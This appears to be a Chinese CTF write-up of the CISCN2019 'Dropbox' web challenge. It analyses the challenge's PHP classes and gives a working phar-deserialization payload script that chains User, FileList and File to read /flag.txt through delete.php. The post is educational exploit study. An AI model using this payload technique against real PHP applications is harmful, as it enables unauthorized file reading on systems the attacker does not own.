1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 delete.php <?php session_start(); if (!isset ($_SESSION ['login' ])) { header("Location: login.php" ); die (); } if (!isset ($_POST ['filename' ])) { die (); } include "class.php" ;chdir($_SESSION ['sandbox' ]); $file = new File();$filename = (string ) $_POST ['filename' ];if (strlen($filename ) < 40 && $file ->open($filename )) { $file ->detele(); Header("Content-type: application/json" ); $response = array ("success" => true , "error" => "" ); echo json_encode($response ); } else { Header("Content-type: application/json" ); $response = array ("success" => false , "error" => "File not exist" ); echo json_encode($response ); } ?>
解题思路：
1 2 3 4 5 class User public function __destruct ( $this ->db->close(); } }
User()类中有一个__destruct()函数，根据题目的一个人phar提示，这里就可能是反序列化的一个关键点。
跟进close()方法：
1 2 3 4 5 6 7 8 9 class File public function close ( return file_get_contents($this ->filename); } }
close()方法中有一个file_get_contents()函数，为phar反序列化的执行函数。所以如果最终能将需要查找的值赋值给$this->filename，在结束对象时会自动执行__destruct函数调用close()，即可得到结果。
通过代码审计发现，我们可以将$this->db覆盖为FileList这个类，就变成了FileList这个类调用close()这个方法，但实际上在这个类里不存在close()方法，因此会触发该类里的_call()方法。
1 2 3 __call():__call($func ,$args )会在对象调用的方法不存在时，自动执行。 $func :被调用的方法名，所以$func ()在这个魔术方法中，可以表示被调用的那个方法； $args : 被调用方法中的参数 调用__call()方法后会将close()方法作为$func 传入执行。
1 2 3 4 5 6 7 class FileList public function __call ($func , $args array_push($this ->funcs, $func ); foreach ($this ->files as $file ) { $this ->results[$file ->name()][$func ] = $file ->$func (); } }
该方法遍历files数组，对每一个file变量执行一次$func，然后将结果存进$results数组。
最后结束时调用_destruct打印出$result和$func的信息.
FileList类里：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 public function __destruct ( $table = 'xxx' ; $table .= 'xxx' ; foreach ($this ->funcs as $func ) { $table .= 'xxx' . htmlentities($func ) . 'xxx' ; } $table .= 'xxx' ; $table .= 'xxx' ; foreach ($this ->results as $filename => $result ) { $table .= 'xxx' ; foreach ($result as $func => $value ) { $table .= 'xxx' . htmlentities($value ) . 'xxx' ; } $table .= 'xxx filename="' . htmlentities($filename ) . '"xxx' ; $table .= 'xxx' ; } echo $table ; }
对于数组的一个判定，在__construct()中可以找到依据，而__construct()方法是在实例化对象时被调用，意思就是说实例化一个FileList类的对象，该方法就会被自动执行。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 public function __construct ($path) $this ->files = array(); $this ->results = array(); $this ->funcs = array(); $filenames = scandir($path); $key = array_search("." , $filenames); unset($filenames[$key]); $key = array_search(".." , $filenames); unset($filenames[$key]); foreach ($filenames as $filename) { $file = new File(); $file->open($path . $filename); array_push($this ->files, $file); $this ->results[$file->name()] = array(); } }
上面的两个数组分析的过程是直接拿别人的分析，我自己在这个点看得不是很懂，就先搁浅下了。
所以总结上述思路就是：
如果能创建一个user的对象，其db变量是一个FileList对象，对象中的文件名为flag的位置，这里猜测是/flag.txt。这样的话，当user对象销毁时，db变量的close方法被执行；而db变量没有close方法，这样就会触发call魔术方法，里面的for循环里执行了File类里的close()方法，也就成功执行了file_get_contents($this->filename)，通过分析FileList类的析构方法可以知道，close方法执行后存在results变量里的结果会加入到table变量中被打印出来，也就是flag会被打印出来。
__call()方法中执行File对象方法是因为在上面的__construct()函数的循环中，每执行一次__construct()都会实例化File,因此数组$this->files里存的都是File类的对象。
补充一个点：
在index.php的__call()的调用中：
1 2 3 4 5 6 7 <?php include "class.php" ;$a = new FileList($_SESSION ['sandbox' ]);$a ->Name();$a ->Size();?>
当执行 $a = new FileList($_SESSION[‘sandbox’])时，会先调用构造函数，把“$_SESSION[‘sandbox’]”目录下的所有文件，都放到 $a->files中，因此这是个数组，这里就解释在后面构造payload时，$this->files要等于一个数组。然后 $a->Name(); 调用了一个FileList中并没有的方法Name()，因此就会自动调用 __all($func, $args)函数，其中$func=Name。然后让$a->files里的所有文件，都去调用这个方法。
因此得到如下payload:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 <?php class User public $db ; } class File public $filename ; } class FileList private $files ; public function __construct ( $file = new File(); $file ->filename = "/flag.txt" ; $this ->files = array ($file ); } } $a = new User();$a ->db = new FileList();$phar = new Phar("7.phar" ); $phar ->startBuffering();$phar ->addFromString("exp.txt" , "test" ); $phar ->setStub("<?php __HALT_COMPILER(); ?>" ); $phar ->setMetadata($a ); $phar ->stopBuffering();?>
运行phar.php文件之后，会生成一个.phar为后缀的文件。

在in_set这个函数中，可以设置php的一些配置，其中就包括open_basedir ，用来限制当前程序可以访问的目录。它是可以访问设置目录下的所有下级目录。
若”open_basedir = /dir/user”, 那么目录 “/dir/user” 和 “/dir/other”都是可以访问的。所以如果要将访问限制在仅为指定的目录，请用斜线结束路径名。”.”可代表当前目录，open_basedir也可以同时设置多个目录,在Windows中用分号分隔目录,在任何其它系统中用冒号分隔目录。例：
ini_set(“open_basedir”, getcwd() . “:/etc:/tmp”); 就是只可以访问当前目录(getcwd()返回当前目录)、/etc和/tmp三个目录。
而download.php中恰好出现了这个函数及其设置：
1 2 3 include "class.php" ;ini_set("open_basedir" , getcwd() . ":/etc:/tmp" );
因此我们不能在payload.php中对payload进行利用，而另一个操作就只有删除了，在delete.php中对payload进行利用
在download.php中：
1 2 if (strlen($filename ) < 40 && $file ->open($filename ) && stristr($filename , "flag" ) === false ) { Header("Content-type: application/octet-stream" );
规定不能直接查询flag相关的内容，上传时对文件格式也进行了过滤。
因此将phar后缀改为gif，抓取删除数据包，发送到Repeater模块，直接进行phar://伪协议的利用进行反序列化读取。得到flag。


自己的小误区：尝试了很多遍还是没有得到flag的我，刚开始将包发到Repeater模块之后，对参数filename=7.gif直接进行了send，导致第二次加入phar://时无法读取到文件，因为第一步的操作已经将文件删除掉了。后来试了很多次之后发现好像不太对，就尝试直接利用phar://进行读取，得到flag。


写在题后 总体来说我觉得这个题目pop链构造的过程不复杂，但是当中所涉及到的很多PHP的语法知识如二维数组等的很多东西，都是现阶段我还没有接触和学习到的比较薄弱的点，以至于类似这种代码审计的题目都需要看很久。在看这个题目之前是对code-breaking 2018 lumenserial 这道题目进行的学习分析，但是这个题目是涉及到框架的分析以及整体的代码审计，对现在的我来说难度比较大，pop链的一个分析流程还可以接受，但是pop构造的代码有很多看不懂的语法之类的问题，所以就先放下了。
好文参考：
https://blog.csdn.net/weixin_44077544/article/details/102844554?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522162392874516780255233715%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=162392874516780255233715&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2allbaidu_landing_v2~default-1-102844554.first_rank_v2_pc_rank_v29&utm_term=%5BCISCN2019+%E5%8D%8E%E5%8C%97%E8%B5%9B%E5%8C%BA+Day1+Web1%5DDropbox&spm=1018.2226.3001.4187
[https://blog.csdn.net/hiahiachang/article/details/105459870?ops_request_misc=&request_id=&biz_id=102&utm_term=%5BCISCN2019%20%E5%8D%8E%E5%8C%97%E8%B5%9B%E5%8C%BA%20Day1%20Web1%5DDrop&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduweb~default-5-.first_rank_v2_pc_rank_v29&spm=1018.2226.3001.4187] (https://blog.csdn.net/hiahiachang/article/details/105459870?ops_request_misc=&request_id=&biz_id=102&utm_term=[CISCN2019 华北赛区 Day1 Web1]Drop&utm_medium=distribute.pc_search_result.none-task-blog-2allsobaiduweb~default-5-.first_rank_v2_pc_rank_v29&spm=1018.2226.3001.4187)
https://blog.csdn.net/zhangxiansheng12/article/details/109234224?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522162401931716780274196665%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fall.%2522%257D&request_id=162401931716780274196665&biz_id=&utm_medium=distribute.pc_search_result.none-task-code-2allfirst_rank_v2~rank_v29-5-109234224-2.first_rank_v2_pc_rank_v29&utm_term=BUUCTF-%5BCISCN2019+%E5%8D%8E%E5%8C%97%E8%B5%9B%E5%8C%BA+Day1+Web1%5DDropbox